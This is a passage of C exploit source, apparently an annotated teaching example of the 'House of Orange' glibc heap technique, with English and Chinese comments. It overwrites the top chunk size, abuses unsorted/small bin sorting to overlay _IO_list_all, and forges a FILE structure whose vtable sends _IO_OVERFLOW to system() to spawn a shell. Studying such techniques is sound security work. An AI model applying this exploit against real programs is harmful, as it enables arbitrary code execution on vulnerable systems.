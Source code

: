 ```c

      Since we overflow the old top chunk, we also control it's size field.
      Here it gets a little bit tricky, currently the old top chunk is in the
      unsortedbin list. For each allocation, malloc tries to serve the chunks
      in this list first, therefore, iterates over the list.
      Furthermore, it will sort all non-fitting chunks into the corresponding bins.
      If we set the size to 0x61 (97) (prev_inuse bit has to be set)
      and trigger an non fitting smaller allocation, malloc will sort the old chunk into the
      smallbin-4. Since this bin is currently empty the old top chunk will be the new head,
      therefore, occupying the smallbin[4] location in the main_arena and
      eventually representing the fake file pointer's fd-ptr.
      通过一次不合适大小的malloc操作，可以将已经被修改为0x61的old Top chunk放进Small Bin。
      而malloc并没有结束，会通过old Top chunk->bk检查下一个"chunk"，由于下一个"chunk"是io_list_all-10，所以检测size，小于MINSIZE "size <= 2 * SIZE_SZ"，触发abort。拿到shell。

      In addition to sorting, malloc will also perform certain size checks on them,
      so after sorting the old top chunk and following the bogus fd pointer
      to _IO_list_all, it will check the corresponding size field, detect
      that the size is smaller than MINSIZE "size <= 2 * SIZE_SZ"
      and finally triggering the abort call that gets our chain rolling.
      Here is the corresponding code in the libc:
      https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#3717
    */

    top[1] = 0x61;

    /*
      Now comes the part where we satisfy the constraints on the fake file pointer
      required by the function _IO_flush_all_lockp and tested here:
      https://code.woboq.org/userspace/glibc/libio/genops.c.html#813
      
      现在我们需要构造fake File。

      We want to satisfy the first condition:
      fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base
    */

    FILE *fp = (FILE *) top;


    /*
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      最后需要设置vtables让_IO_OVERFLOW指向system()。
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the FILE struct:
      base_address+sizeof(FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */
```